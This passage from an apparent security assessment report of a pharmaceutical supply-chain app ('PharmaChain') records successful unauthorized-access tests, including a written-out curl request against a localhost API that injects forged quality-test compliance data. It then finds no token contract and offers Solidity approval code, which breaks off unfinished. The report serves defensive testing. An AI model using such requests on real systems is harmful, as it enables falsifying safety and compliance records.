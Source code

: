 #### Result: ✅ **SUCCESSFUL EXPLOITATION**
**HTTP 200 Response**: Status change accepted without validation

**🔴 VULNERABILITY CONFIRMED**: Unauthorized batch status modification successful

---

### Test 3: Fake Quality Test Injection
**Objective**: Add fraudulent quality test results

#### Attack Vector: Quality Control Bypass
```bash
# SUCCESSFUL EXPLOITATION - Fake compliance data injected
curl -X POST "http://localhost:5000/api/batches/ADMIN_PRIVILEGE_TEST/quality-tests" \
-H "Content-Type: application/json" \
-d '{
  "testType": "UNAUTHORIZED_ADMIN_TEST",
  "testResult": "FORGED_COMPLIANCE", 
  "testerId": "FAKE_ADMIN_001",
  "notes": "Administrative Override - No Authority"
}'
```

#### Result: ✅ **SUCCESSFUL EXPLOITATION**
**HTTP 200 Response**: Fraudulent quality test data accepted

**🔴 VULNERABILITY CONFIRMED**: Unauthorized quality test manipulation successful

---

## TOKEN APPROVAL MECHANISM ANALYSIS

### Current Implementation Assessment
**Finding**: ❌ **NO TOKEN CONTRACTS DETECTED**

The PharmaChain smart contract does not implement:
- ERC-20 token functionality
- Token approval mechanisms
- Allowance systems
- Token transfer functions

**Implication**: No token approval vulnerabilities exist because no token system is implemented.

**Recommendation**: If token functionality is needed for staking or payments:
```solidity
// Recommended secure token approval implementation
contract SecurePharmaToken is ERC20 {
    mapping(address => bool) public authorizedManufacturers;
    
    function setApprovalWithLimit(
        address spender, 
        uint256 amount,
        uint256 maxLimit
    ) external {
        require(amount <= maxLimit, "Exceeds maximum approval limit");
        _approve(msg.sender, spender, amount);
    }
    
    function approveWithTimeLimit(
        address spender,
        uint256 amount, 
        uint256 expiry
    ) external {
        require(block.timestamp < expiry, "Approval expired");
        _approve(msg.sender, spender, amount);
```